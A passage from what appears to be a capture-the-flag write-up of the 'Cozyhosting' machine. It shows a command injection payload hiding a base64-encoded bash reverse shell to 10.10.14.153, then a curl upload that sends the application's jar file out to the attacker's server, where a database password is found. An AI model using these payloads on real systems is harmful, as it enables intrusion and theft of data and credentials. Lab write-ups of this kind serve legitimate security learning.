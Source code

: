 ```
test;echo${IFS}L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuMTUzLzQ0MyAwPCYxIDI+JjE=${IFS}|${IFS}base64${IFS}--decode${IFS}|${IFS}bash; 
```
![Code execution](/assets/img/Cozyhosting/Cozyhosting_09.png)

A moment later we'd get a callback on our reverse shell handler giving us access to the system as the user **app**

![shell as app](/assets/img/Cozyhosting/Cozyhosting_10.png)

## Lateral movement

We got access to the machine as the app user however this account is stil very limited. Running privilege escalation scripts were not fruitful at all so i decided to exfiltrate applications jar file to see if there was nothing i could still abuse or maybe even hardcoded credentials. 

I started up a python upload server with the following command

```
python3 -m uploadserver 80
```

then using the following curl command you can upload jar file

```
curl -X POST http://10.10.14.153/upload -F files=@cloudhosting-0.0.1.jar
```

After extracting the jar file i opened it using jd-gui, this tool decompiles the jar file and gives us access to the source code. When browsing through the sourcecode we could find the password of the postgres connection  in  **BOOT-INF/classes/application.properties**
